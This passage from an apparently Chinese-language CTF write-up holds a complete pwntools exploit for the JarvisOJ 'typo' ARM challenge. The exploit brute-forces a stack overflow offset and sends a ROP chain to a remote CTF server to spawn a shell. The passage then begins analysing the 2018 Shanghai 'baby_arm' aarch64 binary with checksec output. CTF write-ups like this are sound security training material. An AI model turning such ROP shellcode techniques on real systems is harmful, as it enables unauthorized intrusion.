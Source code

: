 ```
# -*- coding: utf-8 -*-

from pwn import *
import sys
import pdb
#  context.log_level = "debug"

#  for i in range(100, 150)[::-1]:
for i in range(112, 123):
    if sys.argv[1] == "l":
        io = process("./typo", timeout = 2)
    elif sys.argv[1] == "d":
        io = process(["qemu-arm", "-g", "1234", "./typo"])
    else:
        io = remote("pwn2.jarvisoj.com", 9888, timeout = 2)
    
    io.sendafter("quit\n", "\n")
    io.recvline()
    
    '''
    jarvisOJ_typo [master●●] ROPgadget --binary ./typo --string /bin/sh
    Strings information
    ============================================================
    0x0006c384 : /bin/sh
    jarvisOJ_typo [master●●] ROPgadget --binary ./typo --only "pop|ret" | grep r0
    0x00020904 : pop {r0, r4, pc}
    '''
    
    payload = 'a' * i + p32(0x20904) + p32(0x6c384) * 2 + p32(0x110B4)
    success(i)
    io.sendlineafter("\n", payload)

    #  pause()
    try:
        #  pdb.set_trace()
        io.sendline("echo aaaa")
        io.recvuntil("aaaa", timeout = 1)
    except EOFError:
        io.close()
        continue
    else:
        io.interactive()
```

## 2018 上海市大學生網絡安全大賽 - baby_arm

### 靜態分析

題目給了一個 `aarch64` 架構的文件，沒有開 canary 保護
```bash
Shanghai2018_baby_arm [master] check ./pwn
+ file ./pwn
./pwn: ELF 64-bit LSB executable, ARM aarch64, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux-aarch64.so.1, for GNU/Linux 3.7.0, BuildID[sha1]=e988eaee79fd41139699d813eac0c375dbddba43, stripped
+ checksec ./pwn
[*] '/home/m4x/pwn_repo/Shanghai2018_baby_arm/pwn'
    Arch:     aarch64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```